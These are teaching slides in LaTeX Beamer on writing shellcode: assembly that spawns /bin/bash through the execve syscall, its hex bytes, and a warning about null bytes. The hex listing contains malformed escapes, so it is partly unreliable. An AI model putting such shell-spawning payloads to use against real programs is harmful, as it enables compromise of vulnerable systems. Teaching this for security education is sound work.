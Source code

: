 \begin{frame}{Shellcoding: Data reference}
\begin{lstlisting}
		filename db '/bin/bash',0
	\end{lstlisting}
	\begin{block}{Generic Way}
		\begin{itemize}
			\item You can push the string in hex format into the stack.
			\item The stack pointer is then the string reference.
		\end{itemize}
	\end{block}
	\acode
	\begin{lstlisting}
		push 0x00000068 ; 0x00, 'h'
		push 0x7361622f ; 'sab/'
		push 0x6e69622f ; 'nib/'
		mov ebx, esp ; now ebx contains the string reference
		; ...
	\end{lstlisting}
\end{frame}

\begin{frame}{Shellcode: first attempt}
	\acode
	\begin{lstlisting}
		bits 64

		lea rdi, [rel filename] ; filename
		lea rsi, [rel args] ; argv
		mov rdx, 0 ; envp

		mov [rel args], rdi ; argv[0] <- filename
		mov [rel args+8], rdx ; argv[1] <- null

		mov rax, 59
		syscall

		filename db '/bin/bash',0
		args db 16
	\end{lstlisting}
	\begin{lstlisting}
		\x48\x8d\x3d\x21\x00\x00\x00\x48\x\x8d\x35\x24\x00\x00
		\x00\xba\x00\x00\x00\x00\x48\x89\x3d\x18\x00\x\x00\x00
		\x48\x89\x15\x19\x00\x00\x00\xb8\x3b\x00\x00\x00\x0f
		\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x01\x00
		\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00
	\end{lstlisting}
	\begin{itemize}
		\item \alert{Warning: zero-byte presence!}
		\item Often shellcode payload are red as string.
		\item C strings are null-terminated array of chars.
		\item The vulnerable program will process only the first five bytes!
	\end{itemize}
\end{frame}


